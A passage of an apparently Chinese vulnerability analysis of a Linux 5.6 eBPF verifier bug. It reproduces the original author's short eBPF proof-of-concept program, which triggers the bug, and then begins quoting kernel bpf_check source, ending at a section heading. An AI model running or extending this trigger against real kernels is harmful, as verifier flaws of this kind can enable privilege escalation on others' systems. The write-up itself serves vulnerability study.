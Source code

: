 2020年3月30日，漏洞作者分享了他触发漏洞的一段`eBPF`程序[1]

```
0: (b7) r0 = 808464432
1: (7f) r0 &gt;&gt;= r0
2: (14) w0 -= 808464432
3: (07) r0 += 808464432
4: (b7) r1 = 808464432
5: (de) if w1 s&lt;= w0 goto pc+0
6: (07) r0 += -2144337872
7: (14) w0 -= -1607454672
8: (25) if r0 &gt; 0x30303030 goto pc+0
9: (76) if w0 s&gt;= 0x303030 goto pc+2
10: (05) goto pc-1
11: (05) goto pc-1
12: (95) exit
```

这段程序触发会使当前进程空转，陷入死循环

乍一看，两个`goto pc-1`，当然会陷入死循环了，那这个Poc还有什么参考价值？



## bpf_check

以`Linux v5.6-rc5`的代码为例[2]，源码于[4]下载

在使用`bpf`系统调用将`eBPF`程序载入内核时，内核会对载入的程序进行合法性检测，以此来保证程序的安全性

在`bpf_check`中有两个主要的检查，一个是`check_cfg`，检查程序流程图，另一个是`do_check_main`，模拟执行程序来检查是否有非法操作

```
int bpf_check(struct bpf_prog **prog, union bpf_attr *attr,
          union bpf_attr __user *uattr)
`{`
    u64 start_time = ktime_get_ns();
    struct bpf_verifier_env *env;
    struct bpf_verifier_log *log;
    int i, len, ret = -EINVAL;
    bool is_priv;

    ……
    ret = check_cfg(env);        &lt;------------
    if (ret &lt; 0)
        goto skip_full_check;

    ret = do_check_subprogs(env);
    ret = ret ?: do_check_main(env);    &lt;-------------

    ……
`}`
```

### <a class="reference-link" name="check_cfg"></a>check_cfg
